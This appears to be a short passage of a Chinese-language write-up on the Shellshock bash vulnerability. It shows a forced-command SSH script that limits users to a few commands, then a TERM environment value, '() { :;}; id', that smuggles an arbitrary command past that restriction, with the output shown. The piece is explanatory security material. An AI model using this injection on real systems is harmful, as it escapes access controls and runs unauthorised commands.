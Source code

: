 一个用于控制 command/SSH_ORIGINAL_COMMAND 的脚本

```
shawn@linux-ionf:~/.ssh> cat /tmp/ssh.sh
#!/bin/sh

case "$SSH_ORIGINAL_COMMAND" in
    "ps")
        ps -ef
        ;;
    "vmstat")
        vmstat 1 100
        ;;
    "cups stop")
        /etc/init.d/cupsys stop
        ;;
    "cups start")
        /etc/init.d/cupsys start
        ;;
    *)
        echo "Sorry. Only these commands are available to you:"
        echo "ps, vmstat, cupsys stop, cupsys start"
        #exit 1
        ;;
esac

```

机器 A 上可以正常的使用限制脚本:

```
shawn@debian-test32:~/.ssh$ export SSH_ORIGINAL_COMMAND="ps"
shawn@debian-test32:~/.ssh$ ssh  shawn@192.168.115.129 $SSH_ORIGINAL_COMMAND
Enter passphrase for key '/home/shawn/.ssh/id_rsa': 
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 16:47 ?        00:00:02 /sbin/init showopts
root         2     0  0 16:47 ?        00:00:00 [kthreadd]
root         3     2  0 16:47 ?        00:00:00 [ksoftirqd/0]

```

借助 TERM 来利用：

```
shawn@debian-test32:~$ export TERM='() { :;}; id'; ssh  shawn@192.168.115.129
Enter passphrase for key '/home/shawn/.ssh/id_rsa': 
uid=1000(shawn) gid=100(users) groups=100(users)
Connection to 192.168.115.129 closed.

```

## 0x02 补丁和后续

* * *
